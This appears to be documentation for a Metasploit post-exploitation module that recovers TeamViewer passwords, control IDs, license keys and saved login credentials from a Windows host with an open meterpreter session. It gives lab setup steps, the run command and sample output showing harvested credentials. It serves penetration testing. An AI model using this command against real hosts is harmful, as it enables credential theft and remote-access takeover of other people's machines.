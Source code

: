 ## Vulnerable Application

  Any Windows host with a `meterpreter` session and TeamViewer 7+
  installed. The following passwords will be searched for and recovered:

  This module allows to enumerate window information to get the control ID
  and Password of TeamViewer. 

  * Options Password -- All module-supported TeamViewer versions (7+)
  * Unattended Password -- TeamViewer versions 7 - 9
  * License Key -- TeamViewer versions 7 - 14

### Installation Steps

  1. Download the latest installer of TeamViewer.
  2. Select "Custom Install With Unattended Password" during

    installation
  3. After installation, navigate to

    `Extra > Options > Security > Advanced > Show Advanced Settings` and
    set the "Options Password"
    * Options can also be exported to a .reg file from here.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/teamviewer_passwords```
  3. If the system has registry keys for TeamViewer passwords they will be printed out.
    4. Print the control ID and password.
    5.  If there is a email and password in the login box, the email and password will be printed.

## Options

### WINDOW_TITLE

Specify a title for getting the window handle, e.g.:TeamViewer',Default is `TeamViewer`

## Scenarios

```
meterpreter > run post/windows/gather/credentials/teamviewer_passwords 

[*] Finding TeamViewer Passwords on WEQSQUGO-2156
[+] Found Exported Unattended Password: P@$$w0rd
[+] Found Options Password: op*****5
[+] Passwords stored in: /home/blurbdust/.msf4/loot/20200207052401_default_***.***.***.***_host.teamviewer__588749.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are 'zhCN'
[*] TeamViewer's version is '15.3.2682 '
[+] TeamViewer's  title is 'TeamViewer'
[*] Found handle to ID edit box 0x000502a8
[*] Found handle to Password edit box 0x00050248
[+] ID: 1 561 912 659
[+] PASSWORD: AUdbM71f<_
[*] Found handle to Email edit box 0x000501cc
[*] Found handle to Password edit box 0x000501e2
[+] EMAIL: kali-team@qq.com
[+] PASSWORD: Mypassword.
meterpreter >
```
